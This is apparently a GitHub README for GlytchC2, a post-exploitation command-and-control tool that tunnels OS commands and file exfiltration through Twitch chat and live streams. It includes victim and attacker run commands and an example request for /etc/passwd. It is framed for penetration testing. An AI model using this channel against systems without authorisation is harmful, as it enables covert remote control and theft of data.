# Glytch Command-and-Control (C2) Tool

<p align="center">  </p>

# A FAFO project: Command execution and data exfiltration of any kind through live streaming platforms

Glytch is a post-exploitation tool serving as a Command-and-Control (C2) & Data Exfiltration service. 

It creates a covert channel through Twitch live streaming platform and lets attacker to execute an OS command or exfiltrate a data of any kind from the target computer (does not matter whether the computers are connected over a LAN or WAN).

Multi-platform (e.g. YouTube, Instagram) support is on our agenda and we are working on some kinks on such platforms' implementation challenges.

## Why?

As a penetration tester, it can be challenging to conceal your real IP address during the post-exploitation phase, especially if you're trying to cover your tracks and potentially exfiltrate data. Your current environment may block unknown IP addresses, requiring a legitimate and trustworthy communication channel. 

## Disclaimer

Use at your own discretion.

While this tool alone will not cause any damage, attacking systems/networks without prior mutual consent is illegal. It is the end user’s responsibility to obey all applicable local, state and federal laws. We assume no liability and we are not responsible for any misuse or damage caused by this.

## Features

Currently, **"GlytchC2"** offers two functionalities:
- Command execution on remote host
- Retrieve file from remote host

## Proof-of-Concepts (PoCs) & How it works

- As this tool can be used on post-exploitation, you need a working shell on the target environment and have necessary permissions/privileges.
- When you execute ``victim.py`` on the target host, host gets connected to the IRC chat of given channel by using provided "oauth" key in the ``.env`` file. You can execute ``victim.py`` with following command:

```
# cd victim
# python3 victim.py --channel <CHANNEL_NAME> --streamkey <RTMP_KEY>
```
- Then, victim waits for receiving a request containing either an OS command or a file with it's path:

<p align="center">  </p>
<p align="center"> Figure - Running "victim.py" </p>

- After victim side is up and waiting for a request, attacker needs to connect corresponding channel's IRC chat:

```
# cd attacker
# python3 attacker.py --channel <CHANNEL_NAME>
```

<p align="center">  </p>
<p align="center"> Figure - Running "attacker.py" </p>

- Then, attacker either can send an OS command e.g. ``whoami`` or request a file download e.g. ``file:/etc/passwd``

<p align="center">  </p>
<p align="center"> Figure - Running "whoami" on Remote Host </p>

- **IMPORTANT:** Note that the stream link may be fetched with a delay, therefore the program will try until obtain a valid stream link.
- We also have inserted a blank frame in the first 10 seconds of the video to prevent missing the frames.
- After the victim receives a command, it starts a stream to output the result of executed command (whether an OS command or a file request):

<p align="center">  </p>
<p align="center"> Figure - Victim Starts Streaming (Result of "whoami") </p>

- In here, attacker obtains the stream link and begins recording the stream on their end.

<p align="center">  </p>
<p align="center"> Figure - Fetching Stream Link (Attacker) </p>

<p align="center">  </p>
<p align="center"> Figure - Recording Stream (Attacker) </p>

- After attacker finishes recording the stream, the program will remove duplicate frames and keep the originals in order to pass them to the decoder:

<p align="center">  </p>
<p align="center"> Figure - Removing Duplicate Frames </p>

<p align="center">  </p>
<p align="center"> Figure - Decoding Recorded Frame(s) </p>

 - Decoded frame content is below:

<p align="center">  </p>
<p align="center"> Figure - Decoded Frame Content (Result of "whoami" OS command) </p>

- We can also request a file with ``file:`` prefix, e.g. ``systeminformer-3.2.25011-release-setup.exe``:

<p align="center">  </p>
<p align="center"> Figure - "systeminformer-..." File Located In Victim </p>

- Sending file request from attacker:

<p align="center">  </p>
<p align="center"> Figure - Requesting Target File w/File Path (Attacker) </p>

- Victim starts streaming (Twitch screen):
  
<p align="center">  </p>
<p align="center"> Figure - Victim Starts Twitch Stream </p>

- When the stream finishes, victim cleans up generated files:

<p align="center">  </p>
<p align="center"> Figure - Stream Ending & Cleanup (Victim) </p>

## Main Execution Flow 
<p align="center">  </p>
<p align="center"> Figure - Main Execution Flow </p>

While main execution flow of this program is provided in below flowchart, we’d like to explain the features in brief:

- Attacker inputs a Twitch channel name in order to establish an IRC connection with victim.
- Victim is in passive mode on the IRC connection and is in  waiting mode for a ping from another peer (namely, the attacker).
- Attacker sends an arbitrary command via IRC and waits for a "READY" message from the victim to see the communication channel is ready.
-

## Module 

-

## What's next? & Current Roadmap for this project

-
